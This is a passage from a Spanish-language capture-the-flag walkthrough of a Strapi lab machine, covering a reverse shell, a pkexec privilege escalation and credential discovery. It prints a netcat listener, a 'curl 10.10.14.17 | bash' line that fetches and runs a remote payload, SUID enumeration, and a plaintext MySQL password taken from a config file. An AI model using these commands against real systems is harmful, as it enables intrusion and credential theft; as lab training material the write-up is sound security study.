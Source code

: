 Esto nos permitirá conseguir una reverse shell con el típico comando de bash. Ahora vamos a ponernos en escucha con `nc-nlvp 443` y vamos a crear un server en python para compartir la shell reversa (`python3 -m http.server 80`). Por último pondremos el siguiente comando en el RCE del exploit:

```bash
curl 10.10.14.17 | bash
```

Le decimos que nos haga un curl a nuestra ip y, como es un archivo index.html, leerá directamente el código, después lo pipeamos con bash para que lo interprete directamente con bash, de esta manera, recibimos nuestra shell:

![image](../zimages/Pasted%20image%2020241105173351.png)

De esta manera ya tenemos la flag de user (`39a1ef07f9adbf92023ce6010e816733`):

![image](../zimages/Pasted%20image%2020241105173445.png)


# Privilege escalation (Option pkexec)

Ahora tenemos que ampliar privilegios, así que vamos a mirar si tenemos alguna opción listando binarios SUID con el comando `find / -perm -4000 2>/dev/null`:

![image](../zimages/Pasted%20image%2020241105175307.png)

Vemos el pkexec, vamos a ver quien es el owner:

![image](../zimages/Pasted%20image%2020241105175341.png)

Es root, vamos a probar a descargarnos en nuestra máquina atacante el script de python para explotar esto. En mi caso lo descargué de este repositorio (https://github.com/Almorabea/pkexec-exploit). Vamos a clonarlo con `git clone [url]`, lo compartimos con la máquina víctima y lo ejecutamos con python3:

![image](../zimages/Pasted%20image%2020241105175958.png)

Ya somos root :)


# Privilege escalation (Exploration + Port Forwarding with Chisel)

Ahora tenemos que ampliar privilegios, vamos a explorar en el directorio home de strapi ('/opt/strapi'). Si exploramos un poco, vemos que en el directorio '/opt/strapi/myapi/config/environments/development', hay un archivo "database.json", si lo leemos vemos la siguiente información:

![image](../zimages/Pasted%20image%2020241105173807.png)

Vamos a internar entrar en mysql con estas credenciales:

```bash
mysql -udeveloper -p'#J!:F9Zt2u'
```
